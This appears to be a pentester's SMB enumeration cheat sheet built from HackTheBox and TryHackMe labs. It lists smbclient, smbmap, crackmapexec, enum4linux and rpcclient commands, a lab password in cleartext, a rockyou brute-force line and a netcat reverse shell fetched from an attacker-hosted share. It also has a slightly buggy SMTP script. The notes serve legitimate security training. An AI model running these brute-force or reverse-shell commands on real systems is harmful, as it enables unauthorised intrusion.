 smbclient
smbclient -N -L \\\\10.10.10.103 list or connect with sharename smbclient \\\\active.htb\\Replication
smbclient //10.10.210.209/milesdyson -U=milesdyson%)s{A&2Z=F^n_E.B
smbclient recurse download
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
smbget
smbget -R smb://10.10.210.209/milesdyson/notes/important.txt -U=milesdyson%)s{A&2Z=F^n_E.B
Get Sharenames (-U is optional)
smbclient -L 10.10.1.X -U=svc-admin%'password'
smbmap -H active.htb or smbmap -H ip -u '' or null smbmap -H ip -u null -p ''
crackmapexec smb <IP> --shares
Enumerate valid domain users (mainly for AD)
python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@10.10.171.0 | tee usernames
cat usernames | grep SidTypeUser  |gawk -F '\' '{ print $2 }' |gawk -F ' ' '{ print $1 }' |tee usernames

or 

crackmapexec smb 10.10.222.122 -u 'guest' -p '' --rid-brute
https://sidchn.github.io/posts/thm-vullnet-roasted/
https://infosecwriteups.com/thm-writeup-vulnnet-roasted-8f4e18314ca7
List share contents
smbmap -R Share\Path -H <IP> --depth 10
smbmap -R Replication -H active.htb --depth 10
Download without connect
smbmap -R Replication -H active.htb -A Groups.xml -q --depth 10
just in case not downloaded under working directory
updatedb && locate Groups.xml

Connect to a share (-U is optional)
smbclient \\\\10.10.1.228\\Sharename -U=svc-admin%'pw'

Brute force via CrackmapexecPermalink
crackmapexec smb/ssh <IP> -d <DOMAIN> -u user/file -p rockyou.txt

https://github.com/byt3bl33d3r/CrackMapExec/wiki/Using-Credentials,-NULL-Sessions,-PtH-Attacks

Download payload and trigger the reverse shell
python /some/path/impacket/examples/smbserver.py share .

// on windows target or RCE
copy \\<attackIP>\share\nc.exe C:\nc.exe;C:\nc.exe <attackIP> <PORT> -e cmd.exe
Connect to RPC - TCP 445
rpcclient -U "" -N $IP #No creds
https://book.hacktricks.xyz/pentesting/pentesting-smb#obtain-information

enum4linux
https://github.com/CiscoCXSecurity/enum4linux

enum4linux -a -M -l -d <IP> 2>&1 | tee "/home/user/scans/enum4linux.txt"
Exploit SMB cron mail
#!/usr/bin/env python3 
import smtplib

host = '127.0.0.1'
port = 25

From = 'send@domain.alvin'
To = 'to@domain.alvin'

Message = '''\
		Subject: HI ALVIN
'''

try:
	io = smtplib.SMTP(host,port)
	io.ehlo()
	io.sendmail(From,To,Message)
except Exceptions as e:
	print (e)
finally:
	io.quit()
Mount
SMB
HackTheBox/Windows/Bastion/README.md
sudo mount -t cifs //10.129.1.39/shares /mnt/csharename
Save a tree from mount
find . -ls | tee ~/home/alvin/tree.txt

NFS
HackTheBox/Windows/Remote/README.md

Check founding
vhd Virtual Hard Drive
List or Mount
7z l *.vhd 
guestmount
Viewing permissions of a SMB Share with SMBCACLS
https://github.com/A1vinSmith/OSCP-PWK/tree/master/HackTheBox/Windows/Sizzle

smbcacls -N '//10.129.230.198/Department Shares' Users

for i in $(ls); do echo $i; smbcacls -N '//10.129.230.198/Department Shares' $i; done

smbcacls -N '//10.129.230.198/Department Shares' Users/Public